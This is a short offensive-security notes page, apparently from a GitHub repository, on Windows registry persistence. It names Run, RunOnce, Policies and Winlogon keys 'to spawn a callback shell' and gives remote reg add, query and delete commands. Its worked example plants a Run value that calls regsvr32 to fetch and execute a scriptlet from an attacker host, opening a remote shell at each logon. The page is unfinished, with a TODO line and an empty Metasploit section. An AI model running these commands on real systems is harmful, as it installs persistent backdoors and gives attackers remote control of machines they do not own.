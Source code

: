 # Registry

## These are the following registry path to create registry values to spawn a callback shell

TODO: Fill this info

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run

HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

## Manual

### Registry key syntax

```
C:\> reg add \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /t reg_sz /d <commands>

C:\> reg query \\<IP>\hklm\software\microsoft\windows\currentversion\run

C:\> reg delete \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /f
```

### Here's the following example

```
C:\> reg add \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /t REG_SZ /d "regsvr32 /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"

C:\> reg query \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run

C:\> reg delete \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /f
```

## Metasploit

